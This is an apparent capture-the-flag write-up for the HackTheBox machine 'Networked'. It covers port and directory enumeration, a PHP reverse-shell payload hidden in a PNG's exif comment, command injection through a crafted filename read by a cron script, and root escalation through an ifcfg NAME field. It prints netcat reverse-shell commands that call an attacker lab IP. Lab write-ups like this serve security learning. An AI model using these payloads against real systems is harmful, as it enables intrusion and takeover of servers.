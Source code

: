 # NETWORKED

## ENUMERATION

Nmap scan gives us two open ports 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ nmap 10.10.10.146
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 03:37 EDT
Nmap scan report for 10.10.10.146
Host is up (0.32s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  open   ssh
80/tcp  open   http
443/tcp closed https

Nmap done: 1 IP address (1 host up) scanned in 18.63 seconds
                                                                                          
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ nmap 10.10.10.146 -p 22,80,443 -A
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 03:37 EDT
Nmap scan report for 10.10.10.146
Host is up (0.69s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.43 seconds
```

Running the gobuster I find two directories which can be useful

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.146 -t 100 -q
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/.hta                 (Status: 403) [Size: 206]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
/cgi-bin/             (Status: 403) [Size: 210]                                  
/index.php            (Status: 200) [Size: 229]                                  
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
```

First I open the ```uploads``` directory but it is empty

Checking out the ```backup``` directory I find a ```backup.tar``` file

![](https://github.com/Leo-2807/Writeups/blob/main/images/networked1.png)

I download the file and open it

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ la
backup.tar
                                                                                          
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ tar xf backup.tar
                                                                                          
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ la
backup.tar  index.php  lib.php  photos.php  upload.php
```

I opened ```index.php``` 

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ cat index.php
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```
It is the source code of index.php page 
This gave me a hint that these other file can also be the source code of the respective pages
So I opened the ```/upload.php``` page on website 

![](https://github.com/Leo-2807/Writeups/blob/main/images/networked2.png)

## SHELL

Now as we read in the upload.php file we can only upload image files 

So I downloaded a image and injected php code into it to get a shell

```
┌──(kali㉿kali)-[~/Downloads/hackthebox/networked]
└─$ exiftool -Comment='<?php system("nc 10.10.14.21 1234 -e /bin/bash"); ?>' shell.png
```

Now I tried uploading it . It worked 
I opened the photos.php page and opened my uploaded image 
It opened as a image and did not gave me a shell

So I tried changing the extension to ```.php.png```

And this time around I successfully got a shell

## USER

Now checking the home directory of user guly

```
bash-4.2$ ls
ls
check_attack.php  crontab.guly  user.txt
bash-4.2$ cat crontab.guly
cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```

So this file is executing check_attack.php every 3 minutes

```php
bash-4.2$ cat check_attack.php    
cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

So this script is deleting files from path which are not supposed to be there
```exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");``` In this line the path is ```/var/www/html/uploads``` and the value is filename
That means we can inject a command as the filename 

Now we can just go to the path i.e. ```/var/www/html/uploads``` use touch command to make a file which holds the shell command as it's name

```
bash-4.2$ cd /var/www/html/uploads
cd /var/www/html/uploads
bash-4.2$ touch '; nc 10.10.14.21 8888 -c bash'
touch '; nc 10.10.14.21 8888 -c bash'
```

We start nc listner on our machine and in 3 minutes we get a user shell

## ROOT

Checking sudo permissions

```
guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

So we can run a bash script

```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

I tried doing to search for vulnerbilities in  ```/etc/sysconfig/network-scripts/ifcfg-guly``` file and came across [this page](/etc/sysconfig/network-scripts/ifcfg-guly)

This says that whatever we write after a blank space in the name attribute will be executed as root


```
[guly@networked sbin]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
test bash
interface PROXY_METHOD:
test
test
interface BROWSER_ONLY:
sdvefv
sdvefv
interface BOOTPROTO:
dfvv
dfvv
[root@networked network-scripts]# whoami
whoami
root
```

